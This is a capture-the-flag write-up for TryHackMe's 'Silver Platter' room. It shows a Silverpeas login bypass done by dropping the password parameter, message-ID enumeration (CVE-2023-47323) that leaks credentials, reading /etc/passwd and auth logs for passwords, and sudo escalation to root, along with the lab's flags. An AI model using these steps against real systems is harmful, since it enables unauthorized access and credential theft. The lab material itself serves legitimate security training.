




## **Introduction**

This write-up covers my solution to the _Silver Platter_ challenge on TryHackMe, a room designed to test practical hacking skills against a deliberately hardened web server. The goal is to enumerate the target, bypass defensive measures, and capture the hidden flags using a thoughtful and methodical approach.

What sets _Silver Platter_ apart is its resistance to common attacks, including a password policy that blocks credentials found in the `rockyou.txt` wordlist. As a result, success depends less on brute force and more on careful reconnaissance, analysis, and exploitation of subtle weaknesses.

This write-up walks through the attack path step by step, explaining the reasoning behind each action and highlighting key lessons learned along the way.
___

```
10.80.174.146
```
## Initial Enumeration

The first step was a full TCP port scan using **Nmap** to identify exposed services and establish the attack surface of the target.

```bash
nmap -sV -sC 10.80.174.146
```

Result:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2026-01-07 08:37 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.80.174.146
Host is up (0.00015s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Wed, 07 Jan 2026 08:37:31 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
|_http-title: Error
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=1/7%Time=695E1B4B%P=x86_64-pc-linux-gnu%r(Get
SF:Request,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\
SF:nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Wed,\x
SF:2007\x20Jan\x202026\x2008:37:31\x20GMT\r\n\r\n<html><head><title>Error<
SF:/title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTPOpti
SF:ons,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\nCon
SF:tent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Wed,\x2007
SF:\x20Jan\x202026\x2008:37:31\x20GMT\r\n\r\n<html><head><title>Error</tit
SF:le></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPRequest,
SF:42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConne
SF:ction:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\x20N
SF:ot\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nContent
SF:-Type:\x20text/html\r\nDate:\x20Wed,\x2007\x20Jan\x202026\x2008:37:31\x
SF:20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\x20N
SF:ot\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Generi
SF:cLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r
SF:\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(SSL
SF:SessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:00\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20c
SF:lose\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos,42,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPDStri
SF:ng,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.86 seconds
```

The scan revealed that the host was reachable and running a Linux-based system, with only **three ports open**, suggesting a relatively small and controlled footprint:

- **Port 22 (SSH)** – Running OpenSSH 8.9p1 on Ubuntu.  
    This indicates potential for later access if valid credentials can be obtained, but no immediate vulnerability stood out at this stage.
- **Port 80 (HTTP)** – Hosting an Nginx 1.18.0 web server.  
    The webpage title identified the site as _“Hack Smarter Security”_, making this the primary focus for web enumeration and further testing.
- **Port 8080 (HTTP Proxy / Web Service)** – Responding to HTTP requests but consistently returning `404 Not Found` or `400 Bad Request`.  
    Although no content was immediately accessible, the presence of this port suggested an additional web service that might expose hidden routes, virtual hosts, or misconfigurations worth investigating further.
    
With most ports closed and no obvious low-hanging fruit, this scan confirmed that the challenge prioritizes **careful web enumeration and analysis** over brute-force service exploitation. The next logical step was to focus on the HTTP services, starting with deeper inspection of the web applications on ports 80 and 8080.
___
## Web enumeration

I visited the web application hosted on port 80 to perform manual enumeration of the site content. At first glance, the page appeared static and informational, but closer inspection revealed several **non-random phrases and names** embedded within the content.

The following items were identified and noted for later use:

- **1337est**
- **1337 h4x0r**
- **basement**
- **Silverpeas (application reference)**
- **scr1ptkiddy**
- **Tyler Ramsbey**

These strings stood out due to their unconventional formatting and hacker-themed language. Rather than treating them as decorative text, they were collected as potential **usernames, passwords, or keyword seeds** for future attacks such as authentication testing, wordlist creation, or service enumeration.

This stage reinforced the importance of manual review: even when a site appears simple, contextual clues embedded in plain sight can significantly influence later exploitation paths.
___
After exhausting manual inspection and enumeration on the main web service (port 80), attention was shifted to the secondary web service running on **port 8080**. Directory brute-forcing was performed using Gobuster with a standard wordlist available on the TryHackMe AttackBox:
```bash
gobuster dir \
-u http://10.10.195.45:8080/ \
-w /usr/share/wordlists/dirb/common.txt \
-t 50
```
Result
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.80.174.146:8080/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 302) [Size: 0] [--> /noredirect.html]
Progress: 4614 / 4615 (99.98%)
/website              (Status: 302) [Size: 0] [--> http://10.80.174.146:8080/website/]
===============================================================
Finished
===============================================================
```
/console:
- The name strongly suggests an **administrative or management interface**
- Consoles are rarely exposed unintentionally and often require authentication
- The redirect behavior indicates that access control or request validation is in place rather than the endpoint being nonexistent
/website:
- Redirecting to a directory implies an **actual web application** is present
- This is likely distinct from the static site hosted on port 80
- Internal or development versions of applications are commonly hosted on alternative ports like 8080
Unlike previous enumeration attempts, these endpoints demonstrate **real application logic**, not just static files.

Upon manual inspection of these endpoints:
- Accessing **`/website`** resulted in a **403 Forbidden** response, indicating that the resource exists but is protected by access controls.
- Accessing **`/console`** returned a **404 Not Found** response, suggesting the endpoint is either intentionally hidden or only accessible under specific conditions.

These findings confirmed that the application on port 8080 contained additional logic beyond static content, even though direct access to the discovered paths was restricted.
___
## Silverpeas Application Discovery

At this point, it seemed that all obvious enumeration paths had been exhausted. After taking a step back and reviewing earlier information, I recalled a reference to a **Silverpeas application**. Testing this manually on the **web service running on port 8080**, I navigated to:

```
http://10.80.174.146:8080/silverpeas
```

This immediately revealed a **login page:**
```
http://10.80.174.146:8080/silverpeas/defaultLogin.jsp
```


uncovering an application that had not been identified through automated scanning and providing a clear authentication entry point.
___
While reviewing the Silverpeas login page, I noticed a **copyright year of 2022** displayed at the bottom of the page. This suggested that the application might be running an older version of Silverpeas.

Rather than immediately attempting credential-based attacks against the exposed usernames, I chose to first investigate whether any **known vulnerabilities** existed for Silverpeas versions around that timeframe that could potentially be leveraged to gain access without brute-forcing credentials.
___
## Identifying a Silverpeas Vulnerability

After spending some time researching Silverpeas, I discovered a known vulnerability affecting older versions of the application, consistent with the **2022** copyright notice observed on the login page. Further investigation led me to documentation describing an **authentication bypass vulnerability** in Silverpeas.

According to the documentation, successful exploitation requires intercepting the login request and modifying it by **removing the password parameter entirely**. Full technical details of the vulnerability can be found here:  
[https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)
### Exploitation Method

The attack involves the following steps:
1. Capture the Silverpeas login request.
2. Modify the request by removing the `Password` field.
Original request:

```
Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

Modified request:
```
Login=SilverAdmin&DomainId=0
```

With the request prepared according to the vulnerability documentation, the next step was to test whether the authentication bypass would succeed.
___
If you need guidance on how to intercept, modify and send the modified request, I have prepared a [silverpeas proxy guide](silverpeas-proxy.md) on how I did it for this challange. Feel free to check it out.
___
## Post-Authentication Access and Further Vulnerability

After sending the modified login request, authentication was successful and access to the **Silverpeas main interface** was obtained. Upon entry, it became apparent that the entire application interface was displayed in **French**, making manual navigation more difficult.


While reviewing the application, I recalled another vulnerability encountered during earlier research into Silverpeas authentication issues. Specifically, **CVE-2023-47323**, a **broken access control** vulnerability that allows an authenticated user to view arbitrary messages by manipulating the message ID parameter in the URL.

Full details of this vulnerability are documented here:  
[https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323)

The key component of this issue is the following endpoint, which allows message access based solely on a numeric identifier:

```
http://TargetMachineIP:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]
```

By modifying the `ID` parameter, it is possible to access messages belonging to other users, potentially exposing sensitive information.
___
## Credential Disclosure via Broken Access Control

After identifying the vulnerable message endpoint, multiple message IDs were tested by incrementing the `ID` parameter, starting from `1`. This process eventually led to **message ID 6**, which exposed valid user credentials.



The disclosed credentials were:
- **Username:** `tim`
- **Password:** `cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`

Additionally, messages with **IDs 4 and 5** referenced a user named **Tyler**, suggesting the possible existence of another valid account. This name was noted for later use.

With valid credentials now obtained, the next step was to return to the terminal and attempt an **SSH login** to the target host using the credentials recovered from message ID 6.
___
## Gaining SSH Access

Using the credentials obtained earlier, an SSH connection to the target host was attempted:

```bash
ssh tim@10.80.174.146
```

When prompted, the recovered password was entered and accepted successfully.  


This confirmed valid SSH access as the user **tim**, providing an interactive shell on the target system and allowing further exploration of the server.
___
> **Note:** From this point forward, the target machine IP address changes, as my previous instance became unavailable.
___

## User Flag

After successfully logging in via SSH as **tim**, basic enumeration was performed to confirm access and locate the first flag:

```bash
pwd
/home/tim

whoami
tim

ls
user.txt

cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
```

The first flag was retrieved successfully:
`THM{c4ca4238a0b923820dcc509a6f75849b}`

---
## Local Enumeration

To identify other users on the system, `/etc/passwd` was reviewed:
```bash
cat /etc/passwd | grep sh$
```
Result:
```bash
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
```
This revealed several interactive users, including **tyler**, who appeared to be a likely target for privilege escalation.

Next, group memberships were checked (using an id command):
```bash
id
```

The output showed that **tim** was a member of the `adm` group, which grants read access to system logs:
```bash
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

---
## Log Analysis and Privilege Escalation

Given membership in the `adm` group, authentication logs were inspected:
```bash
cat /var/log/auth* | grep -i pass
```

Reviewing these logs revealed several sensitive entries, including historical password changes and command execution by **tyler** using `sudo`. Notably, a Docker command exposed an environment variable containing a password:
```bash
POSTGRES_PASSWORD=_Zd_zx7N823/
```

This password was reused by the **tyler** account.

---
## Root Access

Using the recovered password, privilege escalation was achieved:
```bash
sudo su
```

After switching to the root user, the root directory was accessed and the final flag was retrieved:
```bash
cd /root 

ls 

cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```

The root flag was successfully obtained:

`THM{098f6bcd4621d373cade4e832627b4f6}`

---
## Conclusion

This completes the _Silver Platter_ challenge. Initial access was gained through a Silverpeas authentication bypass, followed by credential disclosure via broken access control. Local enumeration and log analysis ultimately led to full root compromise.

**Congratulations — challenge complete. 🎉**
